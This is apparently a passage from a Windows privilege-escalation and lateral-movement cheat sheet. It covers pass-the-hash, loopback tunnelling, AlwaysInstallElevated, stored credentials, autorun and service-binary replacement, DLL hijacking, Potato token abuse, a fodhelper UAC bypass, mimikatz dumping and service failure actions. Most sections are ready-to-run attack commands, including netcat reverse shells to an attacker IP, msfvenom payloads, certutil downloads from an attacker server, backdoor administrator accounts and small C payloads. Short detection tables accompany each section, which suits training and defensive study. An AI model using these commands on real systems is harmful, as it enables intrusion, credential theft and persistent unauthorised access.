    $secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    $mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
⚠️ Limitation: This works with plaintext passwords, not hashes. For actual PtH, use Invoke-WMIExec or similar.

✅ Using PsExec (with hash)
cmd

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
Requires PsExec variant that supports PtH (e.g., in Sysinternals, Impacket, or custom fork).

🔁 Alternative Tools & Methods
Tool	Description
Impacket psexec.py / wmiexec.py	Native support for PtH
Evil-WinRM	Can authenticate with hashes, useful for remote shells
Invoke-WMIExec	PowerShell script for remote command execution
CrackMapExec	Swiss army knife for SMB enumeration + PtH
Rubeus	Can pass TGT tickets for lateral movement (Kerberos equivalent)
Smbexec	Wrapper for smbclient to execute using hashes

🧪 Example: Remote Shell via pth-winexe
bash

    pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:<NTLM_hash> //192.168.1.5 cmd
Result: Interactive cmd.exe shell as Administrator on the remote system.

🛡️ Detection & Mitigation
Defense Strategy	Description
🧼 Disable NTLM	Disable or limit NTLM authentication via GPO
🔐 Enforce SMB Signing	Prevents tampering with SMB messages
🔎 Log Event IDs	Monitor logs: 4624, 4648, 4776 for unusual logins
🔍 Monitor Tools	Detect usage of pth-*, psexec, mimikatz, etc.
🔒 Credential Guard	Protects LSASS from being dumped
📊 Use Sysmon	Track process creation + network connections

✅ Summary Cheat Sheet
Purpose	Command
Dump hashes (WCE)	wce64.exe -w
Remote PtH	pth-winexe -U domain/user%hash //ip cmd
Local PtH (PsExec)	psexec64 \\host -u user -p hash -h command
Set SMBHASH	export SMBHASH=LM:NTLM
Remote PtH (Impacket)	psexec.py -hashes :NTLM domain/user@ip


</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================
Loopback services are applications or services listening on 127.0.0.1 (localhost) only, meaning they cannot be accessed from outside the machine by default. However, if an attacker has local access (e.g., reverse shell, RDP, or low-privileged foothold), these internal services can be proxied or forwarded externally, and then abused — for example, to exploit internal APIs, web interfaces, or escalate privileges.

🔍 Step 1: Identify Loopback Services
Use netstat to check for services bound only to 127.0.0.1 (localhost):

cmd

    netstat -ano | findstr "LISTEN"
🔍 Look for entries like:

nginx

    TCP    127.0.0.1:8000    0.0.0.0:0    LISTENING    1234
Port 8000 is only available on loopback.

PID 1234 may correspond to a high-privilege service like an internal web API.

✅ Identify the service name behind the PID:
cmd

    tasklist /fi "PID eq 1234"
🔁 Step 2: Port Forward the Loopback Service to Attacker
You can remotely expose the local-only service using port forwarding over an SSH tunnel with plink.exe.

✅ Using plink.exe (SSH Reverse Tunnel):
cmd

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
🔁 Example:
cmd

    plink.exe -l kali -pw P@ssw0rd 192.168.1.100 -R 9000:127.0.0.1:8000
This binds port 9000 on your attacking machine to the victim’s internal port 8000 (localhost). Now you can open http://localhost:9000 on your attacker box to access the internal service.

⚙️ Use Cases
Use Case	Example
🧪 Exploit internal web apps	HTTP admin panels only listening on 127.0.0.1
🔄 Abuse local privileged APIs	Exploit services like Jenkins, Redis, MySQL bound to localhost
📦 Pivot into internal systems	Forward 127.0.0.1:3306 (MySQL) and reuse credentials
🔐 Extract secrets	Vaults, config servers, DB admin panels (e.g., Mongo Express)

🛠️ Alternatives to plink.exe
✅ ssh from Linux (native):
bash

    ssh -R 9000:127.0.0.1:8000 attacker@attacker-ip
✅ chisel (More advanced tunneling over HTTP):
bash

# On attacker:
    chisel server -p 9001 --reverse

# On victim:
    chisel client attacker-ip:9001 R:9000:127.0.0.1:8000
✅ socat (bidirectional proxying):
bash

    socat TCP-LISTEN:9000,fork TCP:127.0.0.1:8000
✅ Invoke-SSHCommand / PSSession (PowerShell Remoting):
For environments with WinRM enabled:

powershell

    Enter-PSSession -ComputerName target -Credential $creds
    New-NetFirewallRule -DisplayName "Allow SSH Tunnel" -Direction Inbound -LocalPort 22 -Protocol TCP -Action Allow
🔐 Detection & Defense
Detection Technique	Description
🔍 Monitor Netstat Output	Look for services bound to 127.0.0.1
🧪 Check for Reverse SSH	Monitor plink.exe, ssh.exe, or chisel.exe processes
📊 Enable Sysmon Logging	Monitor for unusual child process or network connections
🔒 Restrict Loopback Services	Configure services to require authentication even on loopback
🛡️ Egress Filtering	Block outbound SSH, chisel, or tunneling ports
🧰 Use Application Firewalls	Restrict access to internal-only services using local firewalls

🧪 Example Scenario
✅ Find a local service:
pgsql

    127.0.0.1:8888 - PID 4321 - Web API for internal admin panel
✅ Tunnel it to attacker machine:
cmd

    plink.exe -l kali -pw kali 192.168.1.100 -R 8080:127.0.0.1:8888
✅ On Kali (attacker):
bash

    curl http://localhost:8080
💥 You now access a privileged local service remotely, possibly leading to RCE, token theft, or privilege escalation.

✅ Summary Cheat Sheet
Task	Command
List local ports	`netstat -ano
Identify process by PID	tasklist /fi "PID eq <pid>"
Tunnel with plink	plink.exe -R <LPORT>:127.0.0.1:<RPORT>
Tunnel with SSH	ssh -R <LPORT>:127.0.0.1:<RPORT> user@attacker-ip
Tunnel with chisel	chisel client attacker-ip:port R:...


</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
 
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

Windows allows users to store credentials in the system using Credential Manager or via commands like runas /savecred. These credentials are saved in a user-specific vault and may be reused by any user with access to the same session. If the /savecred option was used earlier or credentials were saved via GUI, they can be leveraged to execute commands under higher-privileged contexts without re-entering passwords.

🔍 Step 1: Enumerate Stored Credentials
Use the built-in cmdkey.exe utility to view stored credentials:

cmd

    cmdkey /list
🔎 Sample Output:

    yaml
    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator
✅ This shows that the user PWNED\Administrator has saved credentials available for use.

🚀 Step 2: Execute Commands Using Saved Credentials
Use runas with the /savecred flag to reuse stored credentials without retyping the password:

cmd

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <port> -e cmd.exe"
💡 runas spawns the command as the specified user. If /savecred is used and credentials were saved earlier, the prompt is skipped.

🧠 Note:

/savecred does not store credentials — it reuses previously saved ones.

You must provide full absolute paths for commands.

💥 Real-World Exploitation Example
User Administrator has previously saved credentials.

You run:

cmd

    runas /user:Administrator /savecred "C:\Windows\System32\cmd.exe"
You now have a shell running as Administrator, no password required.

🔁 Alternatives & Enhancements
✅ Use PsExec (if credentials were saved elsewhere or token is available):
cmd

    psexec.exe -u PWNED\Administrator -p <known-password> cmd.exe
Or combine with hashes if using Pass-the-Hash scenarios.

✅ Use PowerShell to Elevate:
powershell

    Start-Process "cmd.exe" -Credential (New-Object System.Management.Automation.PSCredential("PWNED\Administrator",(ConvertTo-SecureString "Dummy" -AsPlainText -Force)))
⚠️ Only works if plaintext password is known. Doesn’t support /savecred.

✅ Use Task Scheduler for Persistent Elevation:
cmd

    schtasks /create /tn "sysbackdoor" /tr "cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> 4444 -e cmd.exe" /sc once /st 00:00 /ru "PWNED\Administrator" /RL HIGHEST /F
Leverages stored creds if previously authenticated with this account.

🛡️ Detection & Defense
Defense	Description
🔍 Monitor cmdkey.exe usage	Unusual calls can indicate enumeration
📊 Detect runas /savecred usage	Enable command-line logging (e.g., Sysmon Event ID 1)
🔒 Limit use of /savecred	Enforce GPO to block its usage
🔐 Clear saved credentials	Use cmdkey /delete:<target> to remove saved entries
👁️ Monitor for runas.exe and scheduled task abuse	High-privilege task execution by low-privileged users is a red flag

🧹 Optional Cleanup
Clear stored credentials after use:

cmd

    cmdkey /delete:Domain:interactive=PWNED\Administrator
This deletes the saved credential and prevents re-use by attackers.

✅ Summary Cheat Sheet
Task	Command
View stored creds	cmdkey /list
Run with saved creds	runas /user:<user> /savecred "<command>"
Clear saved creds	cmdkey /delete:<target>
Elevate via PsExec	psexec -u <user> -p <password> cmd.exe
Schedule task w/ creds	schtasks /create ... /ru <user>

   </details>

   <details>
<summary>Autorun / Startup Applications</summary>
 <br>
  Windows allows programs to be configured to automatically execute at boot or login via various autorun or startup locations. If any of these locations have insecure file or directory permissions, a low-privileged user may be able to replace or modify a program, resulting in privilege escalation.

This technique becomes powerful when:

The autorun entry points to a program in a folder where users have write access

The program runs as SYSTEM or Administrator

The file is replaced by a malicious payload

🔎 Detection Techniques
✅ Autorun Registry & Startup Paths
Registry keys to check:

    HKLM\Software\Microsoft\Windows\CurrentVersion\Run

    HKCU\Software\Microsoft\Windows\CurrentVersion\Run

    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

✅ Startup Folder (per-user and global)
Global (all users):

      C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Per-user:

     C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Use icacls to check permissions:

powershell

    icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
Check if "Users" or "Everyone" has (F) or (M) permissions (Full/Modify = vulnerable).
<img width="734" height="304" alt="image" src="https://github.com/user-attachments/assets/bdd1860f-5427-4c79-9a6c-9a06b7d3ea64" />

🔍 Using WinPEAS and Sysinternals Tools
WinPEAS shows:

Insecure file permissions
Autorun entries
Potential DLL hijacking targets
Autoruns64.exe (Sysinternals):
<img width="667" height="226" alt="image" src="https://github.com/user-attachments/assets/0cebe5ff-f10b-4d82-8458-c2ac27de5b42" />

Go to the Logon tab

Identify suspicious entries (e.g., My Program)

Right-click → Check file location and permissions

accesschk64.exe:

cmd

    accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
Look for:
<img width="400" height="134" alt="image" src="https://github.com/user-attachments/assets/9509b23b-1e66-4efa-a446-21b0086b4c58" />

Everyone: FILE_ALL_ACCESS
💣 Exploitation Techniques
✅ Basic Reverse Shell Payload Creation
Generate a payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f exe -o reverse.exe
Alternate (PowerShell):

    msfvenom -p windows/powershell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f psh > shell.ps1
Start a Python server:

    python3 -m http.server 8999
Download payload on victim:

powershell

    certutil -urlcache -split -f http://10.6.42.239:8999/reverse.exe reverse.exe
Or:

powershell

    Invoke-WebRequest "http://10.6.42.239:8999/reverse.exe" -OutFile "reverse.exe"
✅ Replace Insecure Program
powershell

    Copy-Item "C:\Temp\reverse.exe" "C:\Program Files\Autorun Program\program.exe" -Force
✅ Place in Startup Folder (If Writeable):
powershell

    Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\startshell.exe"
✅ Persistence via Registry (Optional)
powershell

    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ShellAccess" -Value "C:\Users\<user>\Documents\reverse.exe" -PropertyType String
🧪 Simulate a Session
Log off and back in

Reboot the system

OR trigger any action that invokes the autorun/startup program

Your reverse shell listener should catch a shell as SYSTEM or Administrator.
<img width="581" height="229" alt="image" src="https://github.com/user-attachments/assets/f7eb185f-2167-446a-a243-34d745c02c44" />

🔁 Alternative Exploitation Methods
📌 DLL Hijacking
If an autorun app loads DLLs from the same folder and the folder is writable, you can plant a malicious DLL named as expected.

Tools like Process Monitor or Procmon can help identify DLL load attempts.

📌 Replace Scheduled Task Executable
Scheduled tasks that point to insecure executables or paths can be exploited similarly. Check:

powershell

    schtasks /query /fo LIST /v
Then:

powershell

    accesschk64.exe -wvu "C:\Path\To\Executable.exe"
📌 PowerShell-Based Payload in Startup Folder
Instead of EXE, drop a .ps1 file and create a .bat or .vbs launcher.

Startup Folder Method:

    @echo off
    powershell -exec bypass -File "C:\ProgramData\Startup\shell.ps1"
🧠 Summary
Step	Tool/Command
Detect startup items	Autoruns64.exe, WinPEAS, Registry, Startup folder
Check permissions	accesschk64.exe, icacls
Generate payload	msfvenom, revshells.com
Transfer payload	certutil, Invoke-WebRequest, Python HTTP server
Replace vulnerable EXE	Copy-Item, copy
Trigger execution	Login/reboot or startup folder launch  
 </details>
 
  <details>
<summary>Executable Files</summary>
 <br>
   This privilege escalation technique involves modifying an executable file used by a Windows Service when:

The file is owned or writable by low-privileged users.

The service runs with elevated privileges (e.g., SYSTEM or Administrator).

The service loads the executable directly from disk without verification.

If a user can overwrite or replace the service binary, they can inject a malicious executable that runs with SYSTEM privileges when the service is restarted.

🔍 Detection
✅ Using Accesschk (SysInternals)
Transfer accesschk64.exe to the target Windows machine:

    certutil -urlcache -split -f http://<attacker-ip>:<port>/accesschk64.exe accesschk64.exe

<img width="769" height="230" alt="image" src="https://github.com/user-attachments/assets/d83105b5-e09f-4ac7-9260-d717959584ed" />
Check for weak permissions on service binaries:

    accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
Look for output like:
<img width="748" height="256" alt="image" src="https://github.com/user-attachments/assets/c861dc30-0d3b-4611-88a4-e532ccc08e21" />

Everyone FILE_ALL_ACCESS
That indicates any user can overwrite the service binary — a major misconfiguration.

✅ Using winPEAS
Run winPEAS.exe on the target system. Look under the section:

"Interesting file & directory permissions"

You’ll see world-writable executables linked to services — these are prime targets.

✅ Manual Check (Optional)
Check permissions via GUI:

Right-click the .exe file

Go to Properties → Security → Advanced

See if Users, Everyone, or a non-admin user has Write or Full Control

⚔️ Exploitation
Once you've identified a service binary you can overwrite, follow these steps:

💣 Step 1: Write a Malicious Executable
On Kali Linux:

Edit a malicious C payload that performs privilege escalation (e.g., add user to admins):

c

#include <stdlib.h>
int main() {
  system("cmd.exe /c net localgroup administrators attacker /add");
  return 0;
}
Compile it:

    x86_64-w64-mingw32-gcc windows_service.c -o evil.exe
💾 Step 2: Replace the Target Binary
Upload evil.exe to the target machine:

# On victim (PowerShell or CMD)
copy C:\Temp\evil.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
(Use /Y to overwrite without prompt)

🚀 Step 3: Start the Service

    sc start filepermsvc
The service will launch your malicious payload with elevated privileges.

✅ Step 4: Verify Exploitation
Check that the new user is added:

    net localgroup administrators
🧰 Alternative Methods
🛠 Replace with Reverse Shell
Instead of adding a user, you can embed a reverse shell payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o revshell.exe
Then overwrite the service binary with revshell.exe and restart the service.

Start listener on Kali:

    nc -lvnp 4444
🧪 Persistence (Optional)
After escalating, create a new user and add to administrators for long-term access:

powershell

    net user pwned P@ssw0rd! /add
    net localgroup administrators pwned /add
🧱 Hardening Recommendations
If you're auditing a system:

Ensure only SYSTEM or Administrator has write access to service executables.

Use tools like AccessEnum or icacls to review ACLs.

Avoid running services from user-writable locations like C:\Temp\ or Downloads.

📌 Summary
Step	Action
1.	Identify vulnerable service binary with world-writable permissions
2.	Overwrite it with a malicious executable
3.	Restart the service
4.	Get SYSTEM shell or escalate privilege
 </details>
<details>
<summary>DLL Hijacking</summary>
 <br>
 </details>
Exploits applications that load DLLs from directories writable by non-admin users. By placing a malicious DLL with the same name as one the app loads, you can achieve code execution as the application account (often SYSTEM).

✅ Detection & Enumeration
Use Procmon → Filter for “NAME NOT FOUND” on DLL loads.

winPEAS → Check writable directories in program folders.

Search for executable paths in registry or autoruns located in writable directories.

🛠 Exploitation
Identify target executable (foo.exe) in C:\Program Files\VulnerableApp\foo.exe.

Check if that folder is writable:

powershell

    icacls "C:\Program Files\VulnerableApp"
Craft a malicious DLL (e.g., example.dll) exporting expected functions with payload.

    c

    BOOL APIENTRY DllMain(...) {
    system("cmd.exe /c net localgroup administrators attacker /add");
    return TRUE;
    }
Compile with MinGW or MSVC; drop into target folder.

Restart the application or service to trigger DLL loading.

🧰 Tools & Alternatives
Process Monitor (to trace DLL loading).

PEVerify or DLL export readers (e.g. pexports).

Testing environments: Place DLL as foo.dll or loadlib.dll.
</details>
 <details>
<summary>Token Impersonation (SeImpersonatePrivilege)</summary>
 <br>
  Users with the SeImpersonatePrivilege can impersonate generic tokens (e.g., service or scheduled tasks) and spawn a new process under SYSTEM or other privileged contexts.

✅ Detection
Run whoami /priv → check for SeImpersonatePrivilege (Enabled).

Check group membership or local policy assignment via secpol.msc or AccessChk.

🛠 Exploitation (JuicyPotato / PrintSpoofer etc.)
Prepare the tool (compiled binary) for your architecture.

On target VM:

powershell

    certutil -urlcache -f http://<attacker-ip>:8999/JuicyPotato.exe Juice.exe
Run:

powershell

    .\Juice.exe -l 8080 -p \pipe\netlogon -t * -a calc.exe
This spawns calc.exe (as SYSTEM). Replace with payload.

🧰 Tools
JuicyPotato / Rubeus / PrintSpoofer / RoguePotato

AccessChk → to verify token rights.
 </details>

 <details>
<summary> UAC Bypass Techniques</summary>
 <br>
  Certain executables in Windows auto-elevate (e.g. fodhelper.exe, eventvwr.exe). Abuse via registry modifications or DLL hijacking to bypass User Account Control.

✅ Detection
Enumerate auto-elevated executables using UACMe’s list.

Check for registry keys in HKCU\Software\Classes\mscfile\shell\open\command.

🛠 Steps (Using fodhelper.exe)
Create .reg file on victim:

    reg
    Windows Registry Editor Version 5.00

    [HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command]
    "DelegateExecute"=""
    "Default"="cmd.exe /c net localgroup administrators attacker /add"
Run .reg file → merge.

Launch:

powershell

    Start-Process fodhelper.exe
Attack commands run elevated without prompt.

🧰 Alternatives
Techniques like eventvwr.exe, slui.exe, sdclt.exe, computerdefaults.exe.

Tools: UACMe, BypassUACST.

 </details>
  <details>
<summary> LSA Secrets & Credential Manager Extraction</summary>
 <br>
  Windows stores credentials in the LSA (LSA Secrets), Credential Manager, and DPAPI—exposing saved credentials or domain passwords.

✅ Detection
Access to system files: SAM, SECURITY, SYSTEM.

User privileges: SeDebugPrivilege.

🛠 Exploitation Steps
Copy mimikatz.exe to target.

Run elevated or under system token:

powershell

    mimikatz # privilege::debug
    sekurlsa::logonpasswords
Alternatively, credman::list to enumerate Credential Manager.

🧰 Tools
Mimikatz, LaZagne, CredDump, SecretsDump (Impacket).
 </details>
 <details>
<summary>Writable PATH Directory Exploit</summary>
 <br>
  If any system PATH folder is writable by a non-admin user, executing a program without specifying full path may call a malicious binary in that folder first.

✅ Detection
powershell

    echo $Env:PATH
    icacls C:\Some\Writable\Path
🛠 Exploitation
Identify a writable PATH location, e.g. C:\Users\Public\Scripts.

Drop cmd.exe or your attacker binary as net.exe into that folder.

Run net or sc commands without full path. Windows loads your malicious binary.
 </details>

 <details>
<summary>WMI Event Subscription (Filter/Consumer Hijack)</summary>
 <br>
  WMI event subscriptions (filters + consumers) can be hijacked if permissions allow — leading to persistent SYSTEM code execution.

✅ Detection
Query WMI:

powershell

    Get-WmiObject -Namespace root\subscription -Class __EventFilter
    Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer
Use wmisecexpire or WMISub tool to list subscriptions.

🛠 Exploitation
Create a malicious __EventConsumer and link via __FilterToConsumerBinding.

Example:

powershell

    $consumer = New-Object -ComObject WbemScripting.SWbemObject
    # Set properties to run payload
    # Bind to Filter
Trigger event → payload runs as SYSTEM.

🧰 Tools
wmiexec, WMISubHijack, WMIQuery.
 </details>

 <details>
<summary>Service Failure Command Execution</summary>
 <br>
  Windows Service manager can execute a command upon failure using the FailureActions ACL. Weak permissions on a service config enable setting a SYSTEM-level failure handler.

✅ Detection
powershell

    sc qfailure MyService
🛠 Exploitation
Modify failure action using:

bash

    sc failure MyService actions= restart/60000 ""/60000 cmd.exe /c "net localgroup administrators attacker /add"
    sc failureflag MyService 1
    sc stop MyService
# let it fail twice to trigger
 </details>
